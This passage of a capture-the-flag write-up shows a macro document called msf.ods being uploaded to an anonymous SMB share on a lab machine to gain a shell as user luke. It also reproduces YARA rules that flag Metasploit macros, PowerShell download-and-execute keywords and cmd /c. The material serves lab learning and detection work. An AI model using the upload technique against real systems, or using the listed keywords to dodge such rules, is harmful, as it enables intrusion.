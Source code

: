 ## Shell as luke 
After putting the msf.ods file into //10.10.10.144/malware_dropbox,
```
$ smbclient  //10.10.10.144/malware_dropbox -Uanonymous
Unable to initialize messaging context
Enter WORKGROUP\anonymous's password: 
Try "help" to get a list of possible commands.
smb: \> put msf.ods 
putting file msf.ods as \msf.ods (117,2 kb/s) (average 117,2 kb/s)
```

We have a shell as luke 
```
$ whoami
re\luke
type \Users\luke\desktop\user.txt 
FE41736F5B9311E48E48B520D9F3****
```

And in the \Users\luke\documents\ we have the ods.yara rules 
```
$ type ods.yara
type ods.yara
rule metasploit 
{
        strings:
	        $getos = "select case getGUIType" nocase wide ascii
			$getext = "select case GetOS" nocase wide ascii
			$func1 = "Sub OnLoad" nocase wide ascii
			$func2 = "Sub Exploit" nocase wide ascii
			$func3 = "Function GetOS() as string" nocase wide ascii
			$func4 = "Function GetExtName() as string" nocase wide ascii
			
		condition:
		    (all of ($get*) or 2 of ($func*))
}

rule powershell
{
        strings:
			$psh1  = "powershell" nocase wide ascii
			$psh2  = "new-object" nocase wide ascii
			$psh3  = "net.webclient" nocase wide ascii
			$psh4  = "downloadstring" nocase wide ascii
			$psh5  = "downloadfile" nocase wide ascii
			$psh6  = "iex" nocase wide ascii
			$psh7  = "-e" nocase wide ascii
			$psh8  = "iwr" nocase wide ascii
			$psh9  = "-outfile" nocase wide ascii
			$psh10 = "invoke-exp" nocase wide ascii
			
		condition:
		    2 of ($psh*)
}

rule cmd
{
        strings:
		    $cmd1 = "cmd /c" nocase wide ascii
			$cmd2 = "cmd /k" nocase wide ascii
		condition:
            any of ($cmd*)
}
```